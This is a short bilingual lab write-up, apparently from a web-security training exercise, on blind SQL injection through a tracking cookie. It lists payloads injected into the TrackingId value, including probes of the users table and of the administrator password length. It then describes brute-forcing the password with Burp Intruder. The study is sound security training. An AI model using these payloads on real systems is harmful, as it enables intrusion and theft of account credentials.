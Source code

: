 

A tracking cookie was used for analytics, and some SQL querys with value will be followed to test.  
从tracking cookie入手进行分析，在其之后注入一些查询语句。

The querys will not return any result, and no error messages will be displayed. The only signal is if the returned page contains "Welcome Back" message.  
评价是否猜测成功的标准是查看返回信息是否包含“Welcome Back”  

The querys including:

`TrackingId=xyz' AND '1'='1 `  

`TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a `  

`TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a `  

A trick is that we can put the proxy from repeater to intruder, and then add positions and set payloads,
to help to crack the password we need.
